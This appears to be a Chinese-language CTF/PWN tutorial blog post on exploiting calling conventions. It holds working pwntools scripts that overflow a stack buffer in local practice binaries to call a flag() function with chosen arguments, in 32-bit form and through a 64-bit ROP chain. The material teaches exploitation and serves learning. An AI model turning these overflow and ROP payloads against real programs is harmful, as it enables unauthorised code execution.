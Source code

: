 ```yaml
---
title: '攻击调用约定'
date: '2023-08-11'
lastmod: '2023-08-18'
tags: ['PWN', 'Stack']
draft: false
summary: '利用调用约定'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

LINK

## 0x01 32-bit

程序期望在执行函数之前栈是这样的布局：

<center>
  <Image alt="origin" src="https://s11.ax1x.com/2024/02/09/pF3MZAe.png" width={406} height={62} />
</center>

那么我们为什么不这样提供呢？除了函数之外，我们还传递返回地址和参数：

<center>
  <Image alt="new" src="https://s11.ax1x.com/2024/02/09/pF3Ma3n.png" width={535} height={62} />
</center>

`flag()` 地址之后的所有内容都将成为下一个函数的栈帧的一部分，因为它 **预期** 在那里——只是我们没有使用 `push` 指令，而是手动覆盖它们。

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

payload = b'A' * 52         # Padding 到 EIP
payload += p32(0x080491c7)  # flag() 的地址
payload += p32(0x0)         # 避免异常
payload += p32(0xdeadc0de)  # 第一个参数
payload += p32(0xc0ded00d)  # 第二个参数

p.sendline(payload)

p.interactive()
```

## 0x02 64-bit

相同的逻辑，只不过我们必须利用之前讨论过的 gadgets 来填充所需的寄存器（在本例中为 `rdi` 和 `rsi`，因为我们有两个参数）。

我们必须在 *调用函数之前* 填充寄存器：

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9

payload = b'A' * 56          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(0xdeadc0de)   # 进入 rdi 的值 - 第一个参数
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0xc0ded00d)   # 进入 rsi 的值 - 第二个参数
payload += p64(0x0)          # 进入 r15 的值 - 避免异常
payload += p64(0x40116f)     # flag() 的地址
payload += p64(0x0)          # 避免异常

p.sendline(payload)

p.interactive()
```

<Note>
  在返回地址后面加 0 本质是为了让程序有个返回的地方，防止异常，不然会返回到下面奇奇怪怪的东西；有时候也可能是栈对齐，64-bit 程序执行 `system` 时会有一个检查，确保栈指针是指着 0 的（结尾是 0），没有对齐的话就不能执行。<br style={{ marginBottom: '0.5em' }} />通常 0 可以替换为任意值，效果是一样的。只是习惯加 0。
</Note>

